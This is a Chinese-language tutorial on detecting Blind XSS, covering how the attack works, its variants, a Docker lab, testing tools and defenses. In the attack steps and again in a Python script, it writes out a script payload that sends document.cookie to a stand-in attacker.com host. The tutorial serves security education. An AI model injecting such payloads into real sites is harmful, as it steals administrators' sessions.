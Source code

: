 # Blind XSS攻击检测的案例分析

## 1. 技术原理解析

### 1.1 Blind XSS概述
Blind XSS（盲跨站脚本攻击）是一种特殊类型的跨站脚本攻击（XSS），攻击者注入的恶意脚本不会立即在受害者的浏览器中执行，而是在某些特定的条件下，例如当管理员或其他特权用户查看相关页面或日志时，才会触发执行。由于攻击者无法直接观察到攻击效果，因此称为“盲”XSS。

### 1.2 底层实现机制
Blind XSS的底层机制与传统的存储型XSS类似，攻击者将恶意脚本注入到应用程序的某个存储位置（如数据库、日志文件等），当这些数据被读取并渲染到网页中时，脚本被执行。由于攻击者无法直接看到注入的脚本是否被执行，因此需要通过间接手段（如日志记录、邮件通知等）来确认攻击是否成功。

### 1.3 攻击流程
1. **注入恶意脚本**：攻击者将恶意脚本注入到应用程序的某个输入点，如评论框、用户资料等。
2. **脚本存储**：注入的脚本被存储在服务器端，如数据库或日志文件中。
3. **脚本触发**：当管理员或其他特权用户查看相关页面或日志时，恶意脚本被执行。
4. **攻击确认**：攻击者通过间接手段（如日志记录、邮件通知等）确认攻击是否成功。

## 2. 变种和高级利用技巧

### 2.1 基于DOM的Blind XSS
在某些情况下，Blind XSS可能基于DOM（文档对象模型）进行攻击。攻击者注入的脚本通过修改DOM结构来触发执行，而不是直接通过服务器端渲染。

### 2.2 利用日志记录的Blind XSS
攻击者可以利用应用程序的日志记录功能，将恶意脚本注入到日志中。当管理员查看日志时，脚本被执行。这种变种通常需要应用程序对日志内容进行HTML渲染。

### 2.3 利用邮件通知的Blind XSS
某些应用程序在特定事件发生时（如用户注册、订单确认等）会发送邮件通知。攻击者可以将恶意脚本注入到这些邮件内容中，当管理员查看邮件时，脚本被执行。

### 2.4 利用第三方服务的Blind XSS
攻击者可以利用第三方服务（如社交媒体插件、广告网络等）将恶意脚本注入到应用程序中。当管理员或其他用户访问相关页面时，脚本被执行。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了模拟Blind XSS攻击，我们需要搭建一个简单的Web应用程序，包含以下功能：
- 用户评论功能，允许用户提交评论并存储在数据库中。
- 管理员页面，允许管理员查看所有评论。

#### 3.1.1 使用Docker搭建实验环境
```bash
# 拉取并运行一个简单的Web应用容器
docker run -d -p 8080:80 --name blind-xss-app vuln/blind-xss-app
```

#### 3.1.2 访问应用程序
在浏览器中访问 `http://localhost:8080`，你将看到一个简单的评论系统。

### 3.2 攻击步骤

#### 3.2.1 注入恶意脚本
1. 在评论框中输入以下内容：
```html
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
```
2. 提交评论，恶意脚本将被存储在数据库中。

#### 3.2.2 触发脚本执行
1. 以管理员身份登录，访问评论管理页面。
2. 当管理员查看评论时，恶意脚本将被执行，并将管理员的cookie发送到攻击者的服务器。

#### 3.2.3 攻击确认
1. 在攻击者的服务器上查看接收到的请求，确认攻击是否成功。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Burp Suite进行Blind XSS检测
1. 启动Burp Suite，配置浏览器代理。
2. 浏览目标应用程序，提交包含恶意脚本的评论。
3. 在Burp Suite的“Repeater”模块中，手动触发管理员查看评论的请求。
4. 观察响应，确认恶意脚本是否被执行。

### 4.2 使用XSS Hunter进行Blind XSS检测
1. 在XSS Hunter（https://xsshunter.com/）上注册并获取一个唯一的payload。
2. 在目标应用程序中注入XSS Hunter的payload。
3. 等待管理员查看相关页面，XSS Hunter将自动捕获并报告攻击结果。

### 4.3 使用自定义脚本进行Blind XSS检测
以下是一个简单的Python脚本，用于检测Blind XSS漏洞：
```python
import requests

# 目标URL
url = "http://localhost:8080/comment"

# 恶意脚本
payload = "<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>"

# 提交评论
data = {"comment": payload}
response = requests.post(url, data=data)

# 检查响应
if response.status_code == 200:
    print("评论提交成功，等待管理员触发脚本...")
else:
    print("评论提交失败")
```

## 5. 防御措施

### 5.1 输入验证和输出编码
对所有用户输入进行严格的验证，并对输出进行适当的编码，以防止恶意脚本的注入。

### 5.2 使用内容安全策略（CSP）
通过配置CSP，限制页面中可以执行的脚本来源，减少XSS攻击的风险。

### 5.3 定期审计和监控
定期审计应用程序的代码和日志，监控异常行为，及时发现和修复潜在的Blind XSS漏洞。

## 6. 总结
Blind XSS攻击是一种隐蔽且危险的攻击方式，攻击者通过注入恶意脚本，利用管理员或其他特权用户的权限进行攻击。通过深入理解其技术原理、变种和高级利用技巧，结合实际的攻击步骤和实验环境搭建，可以有效地检测和防御Blind XSS漏洞。同时，采取适当的防御措施，如输入验证、输出编码和CSP配置，可以进一步降低攻击风险。

---

*文档生成时间: 2025-03-11 16:30:02*
